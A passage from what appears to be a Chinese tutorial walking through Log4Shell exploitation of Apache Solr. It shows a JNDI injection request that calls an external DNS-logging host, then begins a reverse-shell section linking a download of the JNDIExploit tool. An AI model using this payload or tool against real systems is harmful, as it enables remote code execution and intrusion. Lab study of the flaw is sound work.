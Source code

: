 此时直接得到版本信息：`1.8.0`

![](assets/74bd4ba51858980538dc51e0dc1a8000.png)

或者是请求：

代码语言：javascript

复制

```
http://127.0.0.1:8983/solr/admin/cores?action=${jndi:ldap://cd9097fd.dns.1433.eu.org}
```

![](assets/2f1addce35c1c138a6b6f26a59c8e587.png)

04

**反弹shell**

反弹shell需要使用JNDIExploit.v1.2，可以从下面百度云直接下载：

详细的信息可以参考[上一篇文章](/developer/tools/blog-entry?target=http%3A%2F%2Fmp.weixin.qq.com%2Fs%3F__biz%3DMzI3NjA4MjMyMw%3D%3D%26mid%3D2647778614%26idx%3D1%26sn%3D195e9bc45afaa614bed50035d8a7466d%26chksm%3Df35fbecac42837dcc24779cdc6123afeade569d5f7c872b08d1f19623ee7d6351d22bdc504bd%26scene%3D21%23wechat_redirect&source=article&objectId=1922504)

代码语言：javascript

复制

```
https://pan.baidu.com/s/1lxXt-27-i7I_dOUACphVtQ 提取码: nkc5
```
